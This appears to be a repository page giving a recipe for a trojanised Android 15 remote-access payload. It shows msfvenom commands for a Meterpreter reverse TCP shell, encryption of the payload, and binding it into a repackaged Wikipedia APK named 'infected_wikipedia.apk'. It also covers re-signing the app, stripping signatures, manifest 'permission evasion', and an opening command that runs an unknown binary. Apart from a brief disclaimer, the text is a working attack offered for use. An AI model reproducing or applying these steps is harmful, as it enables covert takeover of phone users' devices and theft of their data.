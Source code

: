 ```
chmod +x chk_tools 
./chk_tools
```

# 🔥 Android 15 Bypass for Reverse TCP Payload 🔥

**Disclaimer:** This information is for authorized penetration testing and security research only. Unauthorized access to devices is illegal and unethical.

To create an Android 15-compatible reverse TCP payload that bypasses security measures, you'll need advanced techniques:

```bash
# Generate obfuscated payload with anti-emulation features
msfvenom -p android/meterpreter/reverse_tcp \
LHOST=YOUR_IP \
LPORT=YOUR_PORT \
-a dalvik --platform android \
--arch dalvik -f raw \
-b '\x00\xff' -e cmd/powershell_base64 \
-i 15 | \
openssl enc -aes-256-cbc -salt -pass pass:RandomSeed -out payload.bin

# Embed in legitimate APK template
git clone https://github.com/AndroidTamer/apk-binder
cd apk-binder

# Use a legitimate open-source app as template
wget https://f-droid.org/repo/org.wikipedia_50304.apk

python3 apk-binder.py -t org.wikipedia_50304.apk -p ../payload.bin -o infected_wikipedia.apk

# Sign with custom certificate
keytool -genkey -v -keystore custom.keystore -alias mykey -keyalg RSA -keysize 2048 -validity 10000
jarsigner -verbose -sigalg SHA256withRSA -digestalg SHA-256 -keystore custom.keystore infected_wikipedia.apk mykey

# Additional security bypass techniques
zip -d infected_wikipedia.apk META-INF/\*
zipalign -v 4 infected_wikipedia.apk final_payload.apk
```

## Critical Android 15 Bypass Techniques:

1. **Permission Evasion:**
```xml
<!-- Modified AndroidManifest.xml -->
<uses-permission android:name="android.permission.INTERNET" />
<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
<uses-permission android:name="android.permission.FOREGROUND_SERVICE" />
<uses-feature android:name="android.hardware.faketouch" android:required="false" />
```
